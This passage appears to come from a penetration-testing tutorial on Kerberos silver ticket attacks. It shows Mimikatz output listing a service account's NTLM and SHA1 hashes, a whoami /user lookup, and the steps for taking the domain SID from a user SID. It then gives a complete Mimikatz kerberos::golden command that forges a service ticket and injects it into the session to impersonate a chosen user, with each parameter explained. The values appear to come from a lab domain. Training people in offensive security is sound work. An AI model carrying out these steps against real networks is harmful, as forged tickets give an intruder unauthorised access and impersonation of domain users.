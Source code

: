 **Sample Hash Extraction Output:**
```
Authentication Id : 0 ; 1147751 (00000000:00118367)
Session           : Service from 0
User Name         : iis_service
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 4:52:14 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09
         * SHA1     : ad321732afe417ebbd24d5c098f986c07872f312
         * DPAPI    : 1210259a27882fac52cf7c679ecf4443
```

**Domain SID Retrieval:**
```powershell
# Obtain current user SID (extract domain portion)
whoami /user
```

**SID Output Analysis:**
```
USER INFORMATION
----------------

User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
```

**Domain SID Extraction:**
- **Full SID**: `S-1-5-21-1987370270-658905905-1781884369-1105`
- **Domain SID**: `S-1-5-21-1987370270-658905905-1781884369` (remove RID)
- **RID**: `1105` (user-specific identifier)

### Silver Ticket Creation with Mimikatz

**Forge Service Ticket Command:**
```mimikatz
# Create silver ticket with elevated privileges
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```

**Command Parameters:**
- **/sid**: Domain Security Identifier
- **/domain**: Target domain name
- **/ptt**: Pass-the-ticket (inject into current session)
- **/target**: Target server/service FQDN
- **/service**: Service protocol (http, cifs, ldap, etc.)
- **/rc4**: NTLM hash of service account
- **/user**: Username to impersonate (can be any domain user)
